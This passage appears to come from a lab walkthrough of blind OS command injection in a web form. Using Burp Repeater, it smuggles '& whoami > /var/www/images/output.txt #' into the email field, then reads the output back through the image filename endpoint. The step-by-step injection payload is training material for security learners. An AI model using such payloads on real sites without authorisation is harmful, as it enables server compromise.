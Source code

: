 ```/var/www/images```

- Click on a random GET request with URL that has "/image?filename".

<p align="center">
<br/>
<img src="https://i.imgur.com/HNlH6km.png" height="90%" width="90%" alt=""/>
<br />

- Right-click on the request on the bottom and select "Send to Repeater".

<p align="center">
<br/>
<img src="https://i.imgur.com/fIxEN6J.png" height="90%" width="90%" alt=""/>
<br />

- Click on "Send" will give you the content of the image.

<p align="center">
<br/>
<img src="https://i.imgur.com/8CXKLQA.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

<h2>Redirect Output to File</h2>

- Go back to the Repeater with the ```csrf=``` command.
  - Instead of asking to sleep, run "whoami" command but redirect the output of the "whoami" command into a file in "/var/www/images/output.txt".
  - Add in: "csrf=MQ7FaDJ140t92gTvPUwztnBH5F6pL1AE&name=test&email=test%40test.ca``` & whoami > /var/www/images/output.txt #```&subject=test&message=test".
  - Highlight ``` & whoami > /var/www/images/output.txt #```. Then, press "Ctrl + U" to encode it.
  - The command turns into: "```csrf=MQ7FaDJ140t92gTvPUwztnBH5F6pL1AE&name=test&email=test%40test.ca+%26+whoami+>+/var/www/images/output.txt+%23&subject=test&message=test```".
- Click on "Send".

<p align="center">
<br/>
<img src="https://i.imgur.com/ufbGAyj.png" height="90%" width="90%" alt=""/>
<br />

- The response doesn't tell us if it works.

<p align="center">
<br/>
<img src="https://i.imgur.com/Vj0zsVL.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

<h2>Check If File was Created</h2>

- Navigate back to the image repeater.
  - change: "Get /image?filename=```36.jpg```" into "Get /image?filename=```output.txt```".
- Click on "Send".

<p align="center">
<br/>
<img src="https://i.imgur.com/rXAkqyh.png" height="90%" width="90%" alt=""/>
<br />

- The response worked, the output shows the "whoami" command and it displays the user of the system: "peter-rmFf07".
```
